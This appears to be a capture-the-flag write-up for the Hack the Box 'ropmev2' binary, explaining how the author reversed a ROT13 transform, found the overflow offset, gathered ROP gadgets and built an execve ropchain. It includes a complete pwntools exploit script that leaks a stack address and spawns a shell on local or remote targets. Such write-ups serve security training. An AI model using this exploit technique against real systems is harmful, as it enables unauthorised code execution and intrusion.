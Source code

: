 # Hack the Box ropmev2


## Analysing the binary

Running the binary gives me the following prompt:

```
 ./ropmev2 
Please dont hack me
```

Entering any value doesn't give me anything. Therefore I decompile the binary using Cutter.

```
undefined8 main(void)
{
    int32_t iVar1;
    char *buf;
    
    fcn.00401213();
    printf("Please dont hack me\n", &buf);
    read(0, &buf, 500);
    iVar1 = strcmp("DEBUG\n", &buf);
    if (iVar1 == 0) {
        printf("I dont know what this is %p\n", &buf);
        main();
    }
    fcn.00401238((char *)&buf);
    return 0;
}
```

This is the decompilation code for the main function. This compares with the string "DEBUG". </br>If the entered string is equal to DEBUG then it gives the base address of the buffer that is storing the string. </br> However if it not equal then a function is called and then the entered string is passed to that function and the main function is called again.


### Disassembly of the second function

```
void fcn.00401238(char *arg1)
{
    uint64_t uVar1;
    char *s;
    int64_t var_14h;
    
    if (arg1 != (char *)0x0) {
        var_14h._0_4_ = 0;
        while (uVar1 = strlen(arg1), (uint64_t)(int64_t)(int32_t)var_14h < uVar1) {
            if ((arg1[(int32_t)var_14h] < 'a') || ('m' < arg1[(int32_t)var_14h])) {
                if ((arg1[(int32_t)var_14h] < 'A') || ('M' < arg1[(int32_t)var_14h])) {
                    if ((arg1[(int32_t)var_14h] < 'n') || ('z' < arg1[(int32_t)var_14h])) {
                        if (('M' < arg1[(int32_t)var_14h]) && (arg1[(int32_t)var_14h] < '[')) {
                            arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + -0xd;
                        }
                    } else {
                        arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + -0xd;
                    }
                } else {
                    arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + '\r';
                }
            } else {
                arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + '\r';
            }
            var_14h._0_4_ = (int32_t)var_14h + 1;
        }
    }
    return;
}
```

Disassembling this function tells us that this is a ROT13 function. So whatever string we input in the program,it will perfor m ROT13 operation on it. 

![Effect of ROT13](rop/effect_of_rot13.png)

The above image shows that the padding sent was different than the one we got a crash on. If we calculate the difference between the two sequence of character, it will be clear that the function is a ROT13 function that is executing.

### Tackling the ROT13 function to get the correct offset

To tackle the rot13 function, I wrote a wrote a ROT13 function of my own. This would set our padding to the correct value before sending it.


```
def rot13(s):
    chars = "abcdefghijklmnopqrstuvwxyz"
    trans = chars[13:]+chars[:13]
    rot_char = lambda c: trans[chars.find(c)] if chars.find(c)>-1 else c
    return ''.join( rot_char(c) for c in s ) 
```

After sending this to the program and using cyclic_find to get the offset it is found to be 216.

![Correct Offset](rop/correct_offset.png)

This shows that we are able to succesfully get the crash. 


## Creating the ropchain

In the disassebly we can find that there is a syscall, which can be used to call a execve.

**You can also put a null byte at the begining of the padding to skip the ROT13 function**

![Starting of payload](rop/starting_of_payload.png)

If we notice where the sequence of 'a's is starting, we can use it to get the difference between the leaked address and this one. So that later on when we place our string in it, we can point to it.


The difference will be `0xe0`


## Refering to the x64 syscall documentation 

To build a ropchain with the syscall, we need to know exactly what should be the values of the registers. 

[https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)


The following should be the values of the registers :

```
rax = 59

rdi = Argument to the finction. Here "/bin/bash"

rsi = 0

rx = 0
```

Here rsi and rdx are zeroed out because we do not need the other argument and rdx to point to the environment variable.


## Collecting rop gadgest

The rop gadgets can be found using the ropper tool.</br>
I used the following gadgets :

```
0x000000000040142b: pop rdi; ret;
0x0000000000401162: pop rax; ret;
0x0000000000401429: pop rsi; pop r15; ret;
0x0000000000401164: pop rdx; pop r13; ret;
0x0000000000401168: syscall; ret;
```

## Building the ropchain

The ropchain should look something like following : 

"/bin/sh"+padding+pop_rdi+"pointer to /bin/sh"+pop_rax+"execve call value"+pop_rsi+null_bytes+pop_rdx+null_bytes


**Change the /bin/sh to /ova/fu because it is changed by the rot13 function**


Make the padding as follows

```
padding = b'/ova/fu\x00'
padding = padding+b'a'*(216-len(padding))
```


Thus the whole exploit looks something like this:

```
#pop_rax = 0x0000000000401162
#pop_rdi = 0x000000000040142b
#pop_rsi = 0x0000000000401429
#pop_rdx = 0x0000000000401164
#syscall = 0x0000000000401168
from pwn import *

def rot13(s):
    chars = "abcdefghijklmnopqrstuvwxyz"
    trans = chars[13:]+chars[:13]
    rot_char = lambda c: trans[chars.find(c)] if chars.find(c)>-1 else c
    return ''.join( rot_char(c) for c in s ) 

context.terminal = ['urxvt','-e','sh','-c']
context.log_level = 'DEBUG'
#for local
sh = gdb.debug("./ropmev2")
#for remote
#sh = remote("ip",1234)
sh.recvline()
sh.sendline("DEBUG")
leak = sh.recvline()
leak = leak.decode()
leak = leak[25:]
print("LEAK IS  :",leak)

leak = int(leak,16)

pop_rax = p64(0x0000000000401162)
pop_rdi = p64(0x000000000040142b)
pop_rsi = p64(0x0000000000401429)
pop_rdx = p64(0x0000000000401164)
syscall = p64(0x0000000000401168)

'''
padding = cyclic(300)
padding = rot13(padding)
sh.sendline(padding)
'''
binshp = leak - 0xe0
binshp = p64(binshp)
#padding = "/ova/fu\x00".ljust(216,"a")
#padding = padding.encode()
padding = b'/ova/fu\x00'
padding = padding+b'a'*(216-len(padding))

payload = padding+pop_rdi+binshp+pop_rax+p64(0x3b)+pop_rsi+p64(0x00)*2+pop_rdx+p64(0x00)*2+syscall
sh.sendline(payload)

sh.interactive()
```

![shell](rop/shell.png)


## Regarding the troll on the server

When I tried to exploit this on the server, it wouldn't work because there was no /bin/sh. Change this to /bin/bash, and it will work fine.
